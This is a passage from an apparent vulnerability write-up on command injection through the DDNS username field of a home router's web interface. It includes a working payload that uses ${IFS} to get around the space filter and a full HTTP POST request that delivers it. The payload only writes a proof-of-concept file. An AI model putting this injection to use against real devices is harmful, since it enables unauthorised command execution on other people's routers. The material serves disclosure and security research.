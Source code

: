 Now just like the previous router i tested (`ZXHN H128N`) all inputs appear to be validated for special characters.

![Request](./images/ddns_2_req_payload.png)

All inputs except for the DDNS `user` and `password`. As we see, there is output from the call of the `inadyn` utility, this happens because we are messing with the original parameters of the command, but the fact that this happens can be used to validate our injection. Also again, just like the previous router we cannot use spaces or the command breaks, so we replace any spaces with `${IFS}`.

Command injection payload:
```
user;echo${IFS}PWNED>/var/tmp/pwned;echo${IFS}
```

Payload request:
```
POST /getpage.gch?pid=1002&nextpage=app_ddns_conf_t.gch HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 855
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/getpage.gch?pid=1002&nextpage=app_ddns_conf_t.gch
Cookie: sel_tabmenu=idx_63; sel_menu=group_8; SID=91521c36d8e9385a8c242c3c16b3efc5d5cc823919652eadfc7077b6762e70a3; _TESTCOOKIESUPPORT=1
Upgrade-Insecure-Requests: 1
Priority: u=4

IF_ACTION=apply&IF_ERRORSTR=SUCC&IF_ERRORPARAM=SUCC&IF_ERRORTYPE=-1&IF_INDEX=NULL&IFservice_INDEX=0&IF_NAME=NULL&Name=dyndns&Server=http%3A%2F%2Fwww.dyndns.com%2F&ServerPort=NULL&Request=NULL&UpdateInterval=NULL&RetryInterval=NULL&MaxRetries=NULL&Name0=dyndns&Server0=http%3A%2F%2Fwww.dyndns.com%2F&ServerPort0=80&Request0=&UpdateInterval0=86400&RetryInterval0=60&MaxRetries0=3&Name1=No-IP&Server1=http%3A%2F%2Fwww.noip.com%2F&ServerPort1=80&Request1=&UpdateInterval1=86400&RetryInterval1=60&MaxRetries1=3&Name2=easyDNS&Server2=https%3A%2F%2Fweb.easydns.com%2F&ServerPort2=80&Request2=&UpdateInterval2=86400&RetryInterval2=180&MaxRetries2=5&Enable=1&Hidden=NULL&Status=NULL&LastError=NULL&Interface=IGD.WD1.WCD3.WCIP1&DomainName=hostname&Service=dyndns&Username=user;echo${IFS}PWNED>/var/tmp/pwned;echo${IFS}&Password=password&Offline=NULL&HostNumber=NULL
```
